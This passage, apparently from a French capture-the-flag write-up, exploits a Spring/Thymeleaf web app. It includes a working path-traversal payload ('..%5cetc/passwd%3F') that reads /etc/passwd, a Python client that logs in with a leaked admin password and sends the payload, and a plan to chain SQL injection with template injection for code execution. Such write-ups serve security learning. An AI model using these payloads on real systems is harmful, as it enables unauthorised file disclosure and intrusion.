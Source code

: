 Aprés un long moment de test et de fuzzing, il se trouve que le ``\`` *(%5C)* permet de bypass ce dossier erroné.  
Ainsi, en envoyant ``fname=..%5cetc/passwd``, le serveur tentera de charger ``/etc/passwd.html`` comme template.

#### 2nd Bypass: .html

On peut bypass l'ajout du suffix **.html** en ajoutant à la fin du fichier un ``?`` *(%3F)*.  
Finalement, on peut tester de charger */etc/passwd* comme template avec le *fname* suivant:  
```
..%5cetc/passwd%3F
```

```python
class client:
    def __init__(self, url):
        ...

    def notify(self, payload):
        r = self.s.get(f'{self.url}/notify?fname={payload}').text
        return r

c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)
r = c.notify(payload='..%5cetc/passwd%3F')
print(r)
```

En executant le code précédent, voici la réponse obtenue: 
```json
{"timestamp":"2024-01-29T17:19:07.325+00:00","status":500,"error":"Internal Server Error","path":"/notify"}
```

Si on regarde attentivement les logs docker, on obtient:
```
Error resolving template [ <contenu de /etc/passwd> ], template might not exist or might not be accessible by any of the configured Template Resolvers] with root cause
```

![Screen8](./img/screen8.png)

Aprés quelques recherches, on se rend compte que *thymeleaf* va ouvrir le contenu du fichier fourni et va essayer de trouver une template correspondante.  
Le souci ici est que les templates connues par *thymeleaf* sont directement incluses dans le .jar et qu'il n'est pas possible d'en rajouter simplement.

Heuresement pour nous, en cherchant dans le code de *thymeleaf*, [ici](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java#L277) précisement, on se rend compte que le nom de la template qu'il va rechercher est d'abord rendu par le moteur de template !  
La condition pour le nom de la template soit évaluer est qu'il contienne ``::``  

**On peut donc utiliser l'injection SQL pour écrire un fichier contenant une SSTI et faire pointer *thymeleaf* vers ce fichier afin que le contenu soit évaluer !**
